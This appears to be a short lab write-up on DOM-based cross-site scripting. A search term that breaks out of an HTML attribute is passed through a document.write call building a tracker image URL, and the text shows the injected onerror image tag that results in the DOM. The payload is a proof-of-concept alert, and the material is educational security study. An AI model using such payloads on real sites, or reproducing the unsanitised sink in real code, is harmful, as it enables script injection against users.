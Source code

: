 Searching for 
```
bla"><img src=1 onerror="alert(1)
```
causes
```
document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
```
to add
```
<img src="/resources/images/tracker.gif?searchTerms=bla" qy2juxwkj=""><img src="1" onerror="alert(1)">
```
to the DOM
